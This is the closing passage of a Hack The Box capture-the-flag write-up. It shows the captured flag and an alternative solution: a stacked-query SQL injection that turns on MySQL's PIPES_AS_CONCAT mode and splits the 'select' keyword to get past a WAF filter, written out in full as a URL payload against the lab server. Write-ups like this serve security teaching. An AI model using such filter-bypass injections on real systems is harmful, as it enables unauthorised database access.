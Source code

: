 ```
HTB{wh0_l3t_th3_w4fs_0ut?!..w00f..w00f.w00f!}
```

#### Note:

Actually, my team mate found a way to solve it using split and concat,
but without using `CONCAT()`. 

In Mysql, there is a global variable named `sql_mode` it allows us to tune the server by specifying some predefined modes, you can check the doc to read about all possible modes. But in our case, we are interested only in the mode `PIPES_AS_CONCAT`, as the name suggest, it makes it possible to concat strings using pipes.

The query becomes:
```
;set+sql_mode="PIPES_AS_CONCAT";set+@query+="sel"||"ect flag from definitely_not_a_flag"+;prepare+my_query+from+@query+;execute my_query;
```

Let's Try it on the server :
```
http://docker.hackthebox.eu:30911/?user=\&pass=;set+sql_mode="PIPES_AS_CONCAT";set+@query+="sel"||"ect flag from definitely_not_a_flag"+;prepare+my_query+from+@query+;execute my_query;
```

![solution with concat](img/10.png)

Works Perfectly :D